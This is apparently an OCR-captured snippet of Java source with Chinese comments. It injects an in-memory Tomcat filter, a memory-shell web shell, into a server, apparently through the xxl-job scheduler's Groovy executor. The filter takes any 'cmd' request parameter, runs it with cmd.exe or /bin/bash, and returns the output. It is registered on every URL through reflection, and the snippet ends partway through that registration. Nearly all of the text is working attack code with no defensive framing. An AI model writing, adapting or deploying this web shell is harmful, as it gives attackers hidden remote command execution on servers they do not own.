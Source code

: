```bash
        String filterName = "xxl-job-filter";
        // 1.创建filter
        Filter filter = new Filter() {
            public void init(FilterConfig filterConfig) throws ServletException {

            }

            public void doFilter(ServletRequest servletRequest, ServletResponse servletResponse, FilterChain filterChain) throws IOException, ServletException {
                HttpServletRequest req = (HttpServletRequest) servletRequest;
                HttpServletResponse resp = (HttpServletResponse) servletResponse;
                if (req.getParameter("cmd") != null) {
                    // 由于xxl-job中的groovy不支持new String[]{"cmd.exe", "/c", req.getParameter("cmd")};这种语法，使用ArrayList的方式绕过
                    ArrayList<String> cmdList = new ArrayList<>();
                    String osTyp = System.getProperty("os.name");
                    if (osTyp != null && osTyp.toLowerCase().contains("win")) {
                        cmdList.add("cmd.exe");
                        cmdList.add("/c");
                    } else {
                        cmdList.add("/bin/bash");
                        cmdList.add("-c");
                    }

                    cmdList.add(req.getParameter("cmd"));
                    String[] cmds = cmdList.toArray(new String[0]);

                    Process process = new ProcessBuilder(cmds).start();
                    InputStream inputStream = process.getInputStream();
                    BufferedReader reader = new BufferedReader(new InputStreamReader(inputStream, "UTF-8"));
                    String line;
                    while ((line = reader.readLine()) != null) {
                        servletResponse.getWriter().println(line);
                    }
                    process.destroy();
                    return;
                }
                filterChain.doFilter(servletRequest, servletResponse);
            }

            public void destroy() {

            }
        };

        //2. 创建一个FilterDef 然后设置filterDef的名字，和类名，以及类
        FilterDef filterDef = new FilterDef();
        filterDef.setFilter(filter);
        filterDef.setFilterName(filterName);
        filterDef.setFilterClass(filter.getClass().getName());

        //3. 创建一个filterMap
        FilterMap filterMap = new FilterMap();
        filterMap.addURLPattern("/*");
        filterMap.setFilterName(filterName);
        filterMap.setDispatcher(DispatcherType.REQUEST.name());

        //4. 创建ApplicationFilterConfig构造函数
        Constructor constructor = ApplicationFilterConfig.class.getDeclaredConstructor(Context.class, FilterDef.class);
        constructor.setAccessible(true);

```